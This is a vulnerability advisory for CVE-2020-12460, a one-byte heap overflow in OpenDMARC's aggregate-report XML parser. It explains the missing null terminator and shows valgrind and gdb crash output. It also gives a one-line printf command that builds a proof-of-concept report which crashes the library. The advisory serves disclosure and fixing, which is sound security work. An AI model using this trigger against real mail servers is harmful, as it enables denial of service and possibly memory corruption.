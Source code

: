 # CVE-2020-12460: Heap-overflow in OpenDMARC

## Summary
OpenDMARC through 1.3.2 and 1.4.x through 1.4.0-Beta1 has improper null termination in the function opendmarc_xml_parse that can result in a one-byte heap overflow in `opendmarc_xml` when parsing a specially crafted DMARC aggregate report. This can cause remote memory corruption when a `'\0'` byte overwrites the heap metadata of the next chunk and its `PREV_INUSE` flag [1].

## Details

There is a memory corruption vulnerability in `opendmarc_xml()` of libopendmarc during parsing of DMARC aggregate reports. The versions affected are OpenDMARC through 1.3.2 and 1.4.x through 1.4.0-Beta1.

The root cause is improper null termination. The function `opendmarc_xml_parse()` does not explicitly add a null terminator (`'\0'`) to the buffer holding the XML data after reading the contents from a report file. This can cause an off-by-one error in `opendmarc_xml()` in certain cases depending on the report file, resulting in a one-byte heap overflow.

A null byte write occurs during the parsing at `opendmarc_xml.c:171`, `*sp = '\0'`. Eventually, during parsing of a specially crafted report, this null byte will overflow to the next chunk on the heap, overwriting the heap metadata, as indicated by the following valgrind output.

```
==4014== Invalid write of size 1
==4014==    at 0x401223: opendmarc_xml (opendmarc_xml.c:171)
==4014==    by 0x4020DC: opendmarc_xml_parse (opendmarc_xml.c:614)
==4014==    by 0x400D23: main (in /home/peppe/Downloads/test)
==4014==  Address 0x5204478 is 0 bytes after a block of size 1,080 alloc'd
==4014==    at 0x4C2FB55: calloc (in /usr/lib/valgrind/vgpreload_memcheck-amd64-linux.so)
==4014==    by 0x402070: opendmarc_xml_parse (opendmarc_xml.c:575)
==4014==    by 0x400D23: main (in /home/peppe/Downloads/test)
```

The size field and the least significant bits used as flags are overwritten in the metadata. The relevant flag for this vulnerability is the bit indicating 'previous chunk in use', known as `PREV_INUSE` which will be set to zero and determines if the previous chunk (storing `bufp`) is free. When the buffer is later free'd at `opendmarc_xml.c:616`, `(void) free(bufp)` - a crash occurs as `bufp` is listed as not used.

```
(gdb) run poc.xml
Starting program: /home/peppe/Downloads/test poc.xml
*** Error in `/home/peppe/Downloads/test': double free or corruption (!prev): 0x0000000000605010 ***
.
.
Program received signal SIGABRT, Aborted.
0x00007ffff7a42428 in __GI_raise (sig=sig@entry=6) at ../sysdeps/unix/sysv/linux/raise.c:54
54	../sysdeps/unix/sysv/linux/raise.c: No such file or directory.
(gdb) bt
#0  0x00007ffff7a42428 in __GI_raise (sig=sig@entry=6) at ../sysdeps/unix/sysv/linux/raise.c:54
#1  0x00007ffff7a4402a in __GI_abort () at abort.c:89
#2  0x00007ffff7a847ea in __libc_message (do_abort=do_abort@entry=2, fmt=fmt@entry=0x7ffff7b9ded8 "*** Error in `%s': %s: 0x%s ***\n") at ../sysdeps/posix/libc_fatal.c:175
#3  0x00007ffff7a8d37a in malloc_printerr (ar_ptr=<optimized out>, ptr=<optimized out>, str=0x7ffff7b9e008 "double free or corruption (!prev)", action=3) at malloc.c:5006
#4  _int_free (av=<optimized out>, p=<optimized out>, have_lock=0) at malloc.c:3867
#5  0x00007ffff7a9153c in __GI___libc_free (mem=<optimized out>) at malloc.c:2968
#6  0x00000000004020e8 in opendmarc_xml_parse (fname=<optimized out>, err_buf=0x7fffffffdcd0 "", err_len=256) at opendmarc_xml.c:616
#7  0x0000000000400d24 in main ()
(gdb) frame 6
#6  0x00000000004020e8 in opendmarc_xml_parse (fname=<optimized out>, err_buf=0x7fffffffdcd0 "", err_len=256) at opendmarc_xml.c:616
616		(void) free(bufp);
(gdb) p bufp
$1 = 0x605010 "<feedback"
(gdb) 
```

A remote attacker could provide a specially crafted report that is parsed by this library, causing a denial of service. It could possibly lead to code execution depending on how libopendmarc is used and integrated into the application, in particular if the `opendmarc_xml` function is used explicitly without calling `opendmarc_xml_parse` and with input that is not null-terminated.

A DMARC aggregate report that triggers this vulnerability can be generated using the following commands:

```
printf '<feedback></feedback>' > poc.xml; printf 'A%.0s' {1..1053} >> poc.xml; printf '<begin' >> poc.xml
```

A C program that calls `opendmarc_xml_parse` with the poc above is enough to trigger the vulnerability.

## Timeline
- 2020-07 - Reported to the Trusted Domain project [2].
- 2020-09 - Fixed by the maintainers.

## References

[1] CVE-2020-12460 - https://nvd.nist.gov/vuln/detail/CVE-2020-12460

[2] Memory corruption in opendmarc_xml() - https://github.com/trusteddomainproject/OpenDMARC/issues/64
